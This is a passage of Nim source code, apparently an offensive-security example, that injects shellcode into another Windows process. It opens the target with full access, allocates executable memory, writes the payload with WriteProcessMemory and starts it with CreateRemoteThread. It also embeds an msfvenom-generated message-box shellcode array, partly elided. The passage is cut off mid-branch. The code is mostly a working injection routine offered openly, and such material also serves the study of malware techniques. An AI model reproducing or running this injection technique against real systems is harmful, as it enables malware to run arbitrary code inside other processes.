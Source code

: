     echo "[*] Target Process: ", tProcess.processID

    let pHandle = OpenProcess(
        PROCESS_ALL_ACCESS, 
        false, 
        cast[DWORD](tProcess.processID)
    )
    defer: CloseHandle(pHandle)

    echo "[*] pHandle: ", pHandle

    let rPtr = VirtualAllocEx(
        pHandle,
        NULL,
        cast[SIZE_T](shellcode.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
    )

    var bytesWritten: SIZE_T
    let wSuccess = WriteProcessMemory(
        pHandle, 
        rPtr,
        unsafeAddr shellcode,
        cast[SIZE_T](shellcode.len),
        addr bytesWritten
    )

    echo "[*] WriteProcessMemory: ", bool(wSuccess)
    echo "    \\-- bytes written: ", bytesWritten
    echo ""

    let tHandle = CreateRemoteThread(
        pHandle, 
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](rPtr),
        NULL, 
        0, 
        NULL
    )
    defer: CloseHandle(tHandle)

    echo "[*] tHandle: ", tHandle
    echo "[+] Injected"

when defined(windows):

    # https://github.com/nim-lang/Nim/wiki/Consts-defined-by-the-compiler
    when defined(i386):
        # ./msfvenom -p windows/messagebox -f csharp, then modified for Nim arrays
        echo "[*] Running in x86 process"
        var shellcode: array[272, byte] = [
        byte 0xd9,0xeb,0x9b,0xd9,0x74,0x24,0xf4,0x31,0xd2,0xb2,0x77,0x31,0xc9,0x64,0x8b,
        ...
        0x10,0x89,0xe1,0x31,0xd2,0x52,0x53,0x51,0x52,0xff,0xd0,0x31,0xc0,0x50,0xff,
        0x55,0x08]

    elif defined(amd64):
        # ./msfvenom -p windows/x64/messagebox -f csharp, then modified for Nim arrays